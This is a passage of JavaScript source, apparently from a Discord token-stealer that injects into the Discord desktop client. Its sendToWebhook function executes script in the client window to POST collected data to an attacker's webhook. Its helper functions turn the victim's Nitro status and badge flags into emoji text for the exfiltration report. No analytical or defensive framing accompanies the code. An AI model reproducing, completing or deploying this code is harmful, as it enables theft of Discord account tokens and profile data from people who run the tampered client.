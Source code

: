     callback({})
    return;
})

function sendToWebhook(what) {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`    var xhr = new XMLHttpRequest();
    xhr.open("POST", "${webhook}", true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.setRequestHeader('Access-Control-Allow-Origin', '*');
    xhr.send(JSON.stringify(${what}));
    `, !0).then((token => {}))
}

function getNitro(flags) {
    if (flags == 0) {
        return "no nitro"
    }
    if (flags == 1) {
        return "<:classic:896119171019067423> \`nitro classic\`"
    }
    if (flags == 2) {
        return "<a:boost:824036778570416129> \`nitro Boost\`"
    } else {
        return "no nitro"
    }
}

function GetRBadges(flags) {
    const Discord_Employee = 1;
    const Partnered_Server_Owner = 2;
    const HypeSquad_Events = 4;
    const Bug_Hunter_Level_1 = 8;
    const Early_Supporter = 512;
    const Bug_Hunter_Level_2 = 16384;
    const Early_Verified_Bot_Developer = 131072;
    var badges = "";
    if ((flags & Discord_Employee) == Discord_Employee) {
        badges += "<:staff:874750808728666152> "
    }
    if ((flags & Partnered_Server_Owner) == Partnered_Server_Owner) {
        badges += "<:partner:874750808678354964> "
    }
    if ((flags & HypeSquad_Events) == HypeSquad_Events) {
        badges += "<:hypesquad_events:874750808594477056> "
    }
    if ((flags & Bug_Hunter_Level_1) == Bug_Hunter_Level_1) {
        badges += "<:bughunter_1:874750808426692658> "
    }
    if ((flags & Early_Supporter) == Early_Supporter) {
        badges += "<:early_supporter:874750808414113823> "
    }
    if ((flags & Bug_Hunter_Level_2) == Bug_Hunter_Level_2) {
        badges += "<:bughunter_2:874750808430874664> "
    }
    if ((flags & Early_Verified_Bot_Developer) == Early_Verified_Bot_Developer) {
        badges += "<:developer:874750808472825986> "
    }
    if (badges == "") {
        badges = ""
    }
    return badges
}
